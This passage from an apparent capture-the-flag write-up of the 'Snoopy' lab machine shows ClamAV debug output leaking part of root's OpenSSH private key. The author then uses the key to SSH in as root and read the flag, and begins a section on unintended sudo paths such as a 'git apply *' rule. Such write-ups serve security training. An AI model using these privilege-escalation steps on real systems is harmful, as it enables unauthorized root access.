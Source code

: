```
LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
LibClamAV debug: cli_magic_scan: returning 0  at line 4997
LibClamAV debug: clean_cache_add: 0bf7a447855c6e598fe480a4a46d4988 (level 0)
LibClamAV debug: cli_scandmg: wanted blkx, text value is -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
4gpYjIcyauPHSrV4fjNGM46AizDTQIoK6MyN4K8PNzYMaVnB6IMG9AVthEu11nYzoqHmBf
...[snip]...

```

### SSH

With root’s private key, I can SSH into the box:

```
oxdf@hacky$ ssh -i ~/keys/snoopy-root root@10.10.11.212
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
...[snip]...
root@snoopy:~#

```

And grab `root.txt`:

```
root@snoopy:~# cat root.txt
ce4e994c************************

```

## Beyond Root - Unintendeds

### Background

Snoopy was patched once it came out of scoring points for the season:

![image-20230920222934372](https://0xdf.gitlab.io/img/image-20230920222934372.png)

On release, cbrown’s `sudo` looked like:

```
cbrown@snoopy:/var/www/html$ sudo -l
Matching Defaults entries for cbrown on snoopy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git apply *

```

and sbrown’s `sudo` looked like:
